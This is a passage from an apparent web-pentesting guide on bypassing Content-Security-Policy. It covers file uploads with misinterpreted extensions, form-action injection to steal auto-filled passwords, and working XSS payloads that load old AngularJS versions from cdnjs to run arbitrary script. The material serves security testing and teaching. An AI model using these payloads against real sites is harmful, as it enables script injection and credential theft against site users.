 However, it's highly probable that the server is **validating the uploaded file** and will only allow you to **upload determined type of files**.

Moreover, even if you could upload a **JS code inside** a file using an extension accepted by the server (like: _script.png_) this won't be enough because some servers like apache server **select MIME type of the file based on the extension** and browsers like Chrome will **reject to execute Javascript** code inside something that should be an image. "Hopefully", there are mistakes. For example, from a CTF I learnt that **Apache doesn't know** the _**.wave**_ extension, therefore it doesn't serve it with a **MIME type like audio/\***.

From here, if you find a XSS and a file upload, and you manage to find a **misinterpreted extension**, you could try to upload a file with that extension and the Content of the script. Or, if the server is checking the correct format of the uploaded file, create a polyglot ([some polyglot examples here](https://github.com/Polydet/polyglot-database)).

### Form-action

If not possible to inject JS, you could still try to exfiltrate for example credentials **injecting a form action** (and maybe expecting password managers to auto-fill passwords). You can find an [**example in this report**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp). Also, notice that `default-src` does not cover form actions.

### Third Party Endpoints + ('unsafe-eval')

{% hint style="warning" %}
For some of the following payload **`unsafe-eval` is not even needed**.
{% endhint %}

```yaml
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval'; 
```

Load a vulnerable version of angular and execute arbitrary JS:

```xml
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>


"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>


"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>


With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
  <script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
  </script>
  <img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```
